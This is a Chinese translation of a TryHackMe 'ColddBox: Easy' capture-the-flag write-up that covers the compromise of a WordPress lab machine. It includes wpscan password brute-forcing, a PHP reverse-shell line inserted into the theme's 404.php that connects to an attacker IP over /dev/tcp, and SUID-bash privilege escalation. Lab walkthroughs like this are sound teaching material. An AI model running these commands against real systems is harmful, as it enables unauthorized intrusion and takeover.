# try hackme:cold box:简单编写

> 原文：<https://infosecwriteups.com/tryhackme-colddbox-easy-write-up-2bb4d113b79d?source=collection_archive---------1----------------------->



简单级 CTF 挑战

我们启动[机](https://tryhackme.com/room/colddboxeasy)开始黑吧！！！。

连接到您的 OpenVPN 网络并部署机器。

## 任务 1 boot2Root

首先，让我们使用 [Rustscan](https://github.com/RustScan/RustScan) 扫描机器中的开放端口。

```
rustscan -a <machine-ip>
```



rustscan 结果

我们可以看到只有两个端口是打开的，80(http)和 4512。让我们来探索一下。



这个页面属于 wordpress。使用 GoBuster 让我们找到隐藏的网页

```
gobuster dir -u http://<machine-ip> -w <wordlist>
```



我们发现了一些秘密。



使用 wpscan，让我们试着在 wordpress 页面中找到一些漏洞

```
wpscan --url http://<machine-ip>
```



让我们用暴力迫使密码用户找到密码。

```
wpscan --url http://<machine-ip> -P <wordlist> -U c0ldd
```



找到密码后，让我们登录帐户



账户里没有可疑的东西。所以通过 php 获得反向外壳。

去外观->编辑-> 404.php。粘贴 php 反向 shell 代码，更新代码。

```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<your-ip-address>/4444 0>&1'");?>
```



同时在一个新的终端中打开一个 netcat 会话来获得 shell。

```
nc -lvp 4444
```

然后在浏览器中进入 404.php 页面。

```
http://<machine-ip>/?p=404.php
```

一旦页面加载，我们将在终端中得到相反的外壳



目前用户是 www-data

在/home/c0ldd 文件夹中，我们可以找到 user.txt 文件。但由于我们不是 c0ldd，我们不能查看旗帜。



让我们运行 linpeas.sh 来提升我们的特权。在主机上运行服务器。我正在使用 apache2 并创建一个服务器。

```
sudo service apache2 start
```

在受害者机器上下载 linpeas.sh 文件。

```
wget http://<your-ip-address>/linpeas.sh
```

更改 linpeas 的权限并运行它

```
chmod +x linpeas.sh
./linpeas.sh
```



我们得到了 Db_password，这样我们就可以打开 ssh 端口 4512

```
ssh c0ldd@<machin-ip> -p 4512
```



最后我们是 c0ldd 用户，所以我们可以打开 user.txt



现在我们必须想办法获取 root.txt

```
sudo -l 
```



作为根用户，我们可以执行以上三个命令

让我们通过 chmod 更改 bash 的权限

```
sudo chmod +s /bin/bash
```

以下带有-p 参数的 bash 命令将为您提供一个以 euid 和 egid 为根的 bash shell。

```
/bin/bash -p
```

最后，使用 cat 命令，我们可以查看根标志。



做这个挑战很有趣。希望大家学到新东西:)。

通过 [Linkedin](https://www.linkedin.com/in/vishnuram-r/) 和[我的网站](https://vishnuram1999.github.io/)和我联系。